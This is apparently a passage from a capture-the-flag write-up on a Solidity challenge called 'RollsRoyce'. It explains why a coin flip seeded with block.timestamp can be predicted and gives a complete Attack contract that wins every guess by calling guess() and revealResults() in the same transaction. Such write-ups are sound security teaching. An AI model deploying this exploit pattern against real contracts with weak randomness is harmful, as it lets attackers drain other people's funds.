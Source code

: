 - `keccak256(abi.encodePacked(block.timestamp ^ 0x1F2Df76A6))` -- According to the [documentation](https://docs.soliditylang.org/en/latest/units-and-global-variables.html?highlight=block#block-and-transaction-properties:~:text=keccak256(abi.encodePacked(a%2C%20b))%20is%20a%20way%20to%20compute%20the%20hash%20of%20structured%20data), this computes the hash of some structured data. 

What is interesting to us is the use of `block.timestamp` over here, which according to the [solidity documentation](https://docs.soliditylang.org/en/latest/units-and-global-variables.html?highlight=block#block-and-transaction-properties), is essentially the current block's timestamp in seconds --> in other words, a deterministic value.

So I guess the question is, how do we exploit this idea? When a transaction is made, it gets stored onto a block and it is this particular block's timestamp that we are interested in. 

In order to exploit this, we first got to call the `guess()` function along with the `revealResults()` function *in the same transaction*, so something like this:

```solidity
contract Attack {
    RollsRoyce victim;
    address owner;

    constructor(address payable _addr) public payable {
        owner = msg.sender;
        victim = RollsRoyce(_addr);
    }

    function flipCoin() private view returns (RollsRoyce.CoinFlipOption) {
        return
            RollsRoyce.CoinFlipOption(
                uint256(
                    keccak256(abi.encodePacked(block.timestamp ^ 0x1F2DF76A6))
                ) % 2
            );
    }

    function win() public payable {
        require(address(this).balance >= 1 ether, "Send contract some ether");
        RollsRoyce.CoinFlipOption result = flipCoin();
        victim.guess{value: 1 ether}(result);
        victim.revealResults();
    }
}
```
Essentially, the `win()` function basically tries to call `guess()` and `revealResults()` in the same transaction, therefore making `block.timestamp` a deterministic value which allows us to predict the result of the `flipCoin()` function and making an accurate `guess()`.

We can then deploy this `Attack` contract and transfer some ether to it. We can verify that our `win()` function is indeed working as intended by calling the function multiple times and verifying against the `viewWins()` function in the deployed RollsRoyce contract as shown below

![image](https://user-images.githubusercontent.com/33711159/172994068-ec4c683c-64df-4d5f-89c4-19c772dbc399.png)

Great! We have a surefireway to win the coin flips now by exploiting the usage of a predictable `block.timestamp`!
